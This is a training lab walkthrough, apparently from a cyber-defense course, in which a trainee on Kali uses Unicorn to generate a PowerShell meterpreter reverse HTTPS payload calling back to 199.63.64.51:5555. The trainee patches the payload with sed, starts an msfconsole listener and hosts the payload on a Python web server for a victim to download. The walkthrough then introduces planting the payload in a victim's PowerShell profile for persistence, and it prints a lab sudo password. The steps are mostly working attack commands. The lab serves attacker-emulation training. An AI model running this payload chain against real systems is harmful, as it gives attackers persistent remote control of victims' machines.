 2. Open a terminal window.

﻿

3. Change directories to the Unicorn directory by entering the following code:

(trainee@dmss-kali)-[~]$cd /home/trainee/unicorn
﻿

4. Generate the Metasploit setup script and PowerShell shellcode that creates a persistent reverse HTTPS shell by entering the following command:

(trainee@dmss-kali)-[~/unicorn]$ ./unicorn.py windows/meterpreter/reverse_https 199.63.64.51 5555
﻿

The command from this step creates the files powershell_attack.txt and unicorn.rc, as displayed in Figure 12.1-1, below:

﻿![image](https://github.com/user-attachments/assets/f31d9bf6-9b43-4c94-8687-0a3680c184f5)

If the attack command in powershell_attack.txt is placed in the PowerShell profile in its current state, it will create an unacceptable loop. To resolve this, the flag -noprofile must be manually added to the code. 


5. Ensure that child PowerShell processes run without the profile enabled by running the following command:
(trainee@dmss-kali)-[~/unicorn]$ sed -z -i 's/\n/\r\n/g;s/powershell/powershell -noprofile/g' powershell_attack.txt



6. Display the commands to add to the PowerShell profile by printing the contents of the file powershell_attack.txt.


This file will be downloaded to the victim device.


7. Start a listener with the following command:
(trainee@dmss-kali)-[~/unicorn]$ sudo msfconsole -r unicorn.rc
[sudo] password for trainee: CyberTraining1!



8﻿. In a separate window, change directories to the Unicorn directory by entering the following code:
(trainee@dmss-kali)-[~]$cd /home/trainee/unicorn



9. Host the file powershell_attack.txt in an ad hoc Python web server to transfer it to the target by executing the following command:
(trainee@jdmss-kali)-[~/unicorn]$ python3 -m http.server





Establish Persistence in the PowerShell Profile


Having created a persistence payload with Unicorn, emulate an attacker with access to a victim Windows machine in the mission partner network in order to place the payload in the PowerShell Profile that is loaded when a user initiates a PowerShell session. 
